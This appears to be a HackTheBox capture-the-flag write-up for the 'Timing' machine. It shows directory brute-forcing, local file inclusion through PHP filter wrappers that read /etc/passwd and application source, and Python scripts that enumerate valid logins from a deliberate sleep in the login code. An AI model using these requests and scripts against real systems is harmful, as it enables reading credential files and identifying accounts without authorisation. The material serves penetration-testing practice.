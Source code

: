 ## Timing Machine - htb

Index:
- LFI
- Wrappers
- Timing Enumeration

```
gobuster dir -u http://$ipv -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**LFI + PHP Wrappers**
```
curl -XGET http://$ipv/image.php?img=php://filter/resource=/etc/passwd

curl -XGET http://$ipv/image.php?img=php://filter/convert.base64-encode/resource=header.php
```

Let's inspect login.php using the same method:
```
curl -XGET http://$ipv/image.php?img=php://filter/convert.base64-encode/resource=./login.php | base64 -d > login.php
```
The points that we have to look up is the function createTimeChannel:
```
function createTimeChannel()
{
    sleep(1);
}
.
.
.
.
    if ($user !== false) {
        createTimeChannel();#!!!!
        if (password_verify($password, $user['password'])) {
            $_SESSION['userid'] = $user['id'];
            $_SESSION['role'] = $user['role'];
            header('Location: ./index.php');
            return;
        }
    }
```
Whe the user is correct the app sleeps for 1 second. With this we can brute force user enumeration. You can check that with burp suite, with the user admin.

Let's create a python script to enumerate users;
POC
```python
import requests

r = requests.post("http://10.10.11.135/login.php?login=true", data={"user": "admin", "password":"p4$$w0rd!"})
print(r.elapsed)

r = requests.post("http://10.10.11.135/login.php?login=true", data={"user": "daffi", "password":"p4$$w0rd!"})
print(r.elapsed)
import pdb; pdb.set_trace()
```
Execute this with:
```
python3 -i enum_users.py
0:00:01.274611
0:00:00.201168

(Pdb) print(r)
(Pdb) print(r.text)
(Pdb) dir(r) # to get attributes of the object
(Pdb) print(r.status_code)
(Pdb) print(r.elapsed) #delay between request and answer
```
This is the main concepts to exploit this enumeration technique.
```python
import requests
import sys

data = {"user":sys.argv[1],"password":"password"}
r = requests.post("http://10.10.11.135/login.php?login=true", data=data)
print(r.elapsed.microseconds)

if (r.elapsed.microseconds > 220000):
    print(f"User valid:", data["user"])
else:
    print(f"User Invalid:", data["user"])
#import pdb; pdb.set_trace()

```
